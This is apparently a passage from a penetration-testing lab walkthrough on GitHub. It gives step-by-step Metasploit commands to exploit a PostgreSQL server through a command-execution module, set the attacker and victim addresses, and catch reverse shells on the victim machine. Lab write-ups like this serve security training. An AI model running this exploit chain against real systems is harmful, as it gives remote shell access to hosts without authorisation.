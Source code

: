 (Find version)

### (ATTACKER) ON msf6

```
search postgresql
```

Exploit Module looks something like this make sure you use the number that the has the most recent date: `exploit(multi/postgress/postgress_copy_from_program_cmd_exec)`

[3:29] DAY 11

```
set lhost 192.168.122.209 
```

```
set rhosts 192.168.1.102
```

**Use your own port**

```
set lport 61775
```


Use your manual port for reverse shells

```
show options
```

```
run
```

Should get exploit here

[3:30] DAY 11

```
Id
```



![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/4647cade-3673-4514-8728-895a4fdf8d11)

### (VICTIM)






![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/555ad47a-e318-4c77-b1da-49c36ad32519)
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/cc75956e-935c-49cc-ba10-5bf0a780b058)
Break out metasploit by using your FIRST port you made creating 
another shell open listener on your (DEFAULT PORT) and on the victim paste in the rev shells syntax. when you catch the shell just press enter then /bin/bash.
